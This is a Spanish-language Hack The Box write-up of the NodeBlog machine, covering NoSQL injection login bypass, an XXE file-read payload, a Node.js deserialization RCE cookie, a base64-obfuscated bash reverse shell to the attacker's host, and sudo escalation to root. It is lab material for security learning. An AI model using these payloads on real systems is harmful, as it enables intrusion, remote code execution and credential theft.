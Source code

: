 ```yaml
---
layout: single
title: NodeBlog - Hack The Box
excerpt: "Para resolver ésta máquina interceptamos la solicitud a la hora de iniciar sesión, logrando así manipular los campos & logrando consigo inyectar NoSQL malicioso para un usuario válido, logrando así burlar el sistema de inicio de sesión, para posterior a ello abusar de subidas de archivo en formato .xml convirtiéndolo en XXE, logrando ver el código fuente de la página web, para aprovecharnos de éste. Hacemos una cookie serialiada maliciosa para llevar a cabo un RCE y entablarnos una Reverse Shell, para posterior a ello enumerar credenciales en texto claro de la DB & aprovecharnos de los SUDOERS."
date: 2023-11-20
classes: wide
header:
  teaser: /assets/images/htb-writeup-nodeblog/nodeblog_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - NoSQL Injection (Authentication Bypass)
  - XXE File Read
  - NodeJS Deserialization Attack (IIFE Abusing)
  - Mongo Database Enumeration
  - abusing sudoers
---
```


Para resolver ésta máquina interceptamos la solicitud a la hora de iniciar sesión, logrando así manipular los campos & logrando consigo inyectar NoSQL malicioso para un usuario válido, logrando así burlar el sistema de inicio de sesión, para posterior a ello abusar de subidas de archivo en formato .xml convirtiéndolo en XXE, logrando ver el código fuente de la página web, para aprovecharnos de éste. Hacemos una cookie serialiada maliciosa para llevar a cabo un RCE y entablarnos una Reverse Shell, para posterior a ello enumerar credenciales en texto claro de la DB & aprovecharnos de los SUDOERS.


# PortScan
__________
```
# Nmap 7.93 scan initiated Mon Nov 20 09:49:30 2023 as: nmap -sCV -p22,5000 -oN targeted 10.10.11.139
Nmap scan report for 10.10.11.139
Host is up (0.063s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 20 09:49:45 2023 -- 1 IP address (1 host up) scanned in 14.89 seconds
```

# Web Site
_______________
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120112841.png)

Realicé un **FUZZING** web para posibles directorios existentes en la máquina víctima, pero no encontré nada interesante, probé ingresando usuarios default típicos, y ví qué decía cuando un usuario era válido y cuando no, descubriendo así que el usuario "**admin**" existe, pero ninguna contraseña típica funcionó, por lo qué opté por interceptar esto con el Proxy **BurpSuite**.

# Proxy BurpSuite
___

Aquí empecé a probar distintas inyecciones de **DB's** , entre ellas NoSQL's, descubriendo qué era vulnerable a inyecciones **NoSQL**, pero con un body en formato Json y no DATA.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120113655.png)

Como conocemos un usuario **válido**, usamos la operativa "**not equal**" para hacer un ByPass de contraseña, logrando así entrar como Admin.

En resumen,  al usuario "**admin**" ser válido, y la contraseña no ser igual a "**test**" **ByPassareamos** ésto porque verdaderamente la contraseña **NO ES IGUAL** a "test." logrando así iniciar sesión y seteandonos una cookie.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120115202.png)

Qué por lo que parece es una cookie de sesión URL **encodeada**, y sí vamos a la web nos veríamos logueados.

![](Pasted image 20231120115651.png)


Vemos qué podemos subir archivo, así que intentamos subir un archivo cualquiera, por ejemplo un .txt a ver qué pasa...
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120120049.png)

Debemos subir un archivo en formato **.XML**, así qué se me ocurre ver si podemos tratar de llevar a cabo un **XXE** con una entidad maliciosa para leer el "**/etc/passwd**".

**PoC .xml:**
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
   <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
 
 <post>
   <title>Example Post</title>
   <description>Example Description</description>
   <markdown>&xxe;</markdown>
 </post>
```

Una vez subido, vemos qué logramos leer el "**passwd**" gracias al **XXE**.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120120634.png)

Y también descubrimos que el usuario "**admin**" es un usuario válido del sistema.

Traté de leer sí existía la **"id_rsa"** de SSH, pero no encontré nada, pero curiosamente al enviar un cuerpo corrompido al servidor como solicitud de logueo, nos devolvería rutas existente como error.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120121359.png)

Nos reportaría rutas, lo qué me da a entender que son rutas donde está alojado el servidor, por ende veo varios **"/opt/blog"**, así que modifico mi **XXE** para leer del "**/opt/blog/server.js**" logrando así ver el código fuente.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120121703.png)

Nos chiva el código fuente qué por detrás **deserializa** la cookie **serializada**, para interpretarla, por lo qué se me ocurre de primer poner una cookie serializada maliciosa, qué a la hora de deserializarse por detrás haga lo qué me interese, investigando encontré qué podemos llevar a cabo en estas situaciones un **IIFE**.

**IIFE:** no es más qué mediante dos paréntesis colocado de forma específica en el código, ejecute ese comando colocado en los paréntesis antes de deserializar en éste caso la cookie.

[((Artículo sobre IIFE y como podemos explotar deserialización y serialización en Node JS))](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

**PoC** Payload para llevar a cabo el "**RCE**" mediante el **"IFFE"**:
```js
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('cmd',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

Como vimos al principio, la cookie está **urlencodeada**, así qué este payload lo urlencodeamos para ponerlo como cookie en nuestro navegador, y a continuación estaré probando si logramos llevar a cabo la **RCE** seteando una cookie qué intente obtener un recurso desde la máquina víctima a mi máquina con "wget".
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120124717.png)

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120124740.png)

Por ende, estamos llevando a cabo el **RCE** éxitosamente, así que procederé a entablarme una **Reverse Shell** con el payload en base64.
```bash
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNS80NDMgMD4mMQo= | base64 -d | bash',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

Convertirmos en **URLENCODE**, seteamos eso como cookie de sesión, y al recargar obtendríamos nuestra **Reverse Shell**.
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125050.png)

Ya quedaría darle Tratamiento a la TTY, que sino sabes como te recomiendo [((LEER ÉSTE POST))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios
___
Sí vemos los puertos abiertos, veremos puertos qué de manera externa no teníamos acceso.
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125343.png)

Y sí indagamos en internet, veríamos que este puerto suele ser el de **MongoDB** por defecto, así que intentamos entrar...
```bash
mongo
```

Logrando así conectarnos con la DB, ahora deberíamos listar DB's que nos interesen con contenido de sus tablas, columnas...

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125522.png)

Encontrando así las credenciales del usuario actual, para posterior ver sus permisos SUDOERS.

```bash
sudo -l
```

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125604.png)

Viendo que podemos ejecutar lo que sea, es decir podemos convertirnos en Root con:
```bash
sudo su
```

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125651.png)
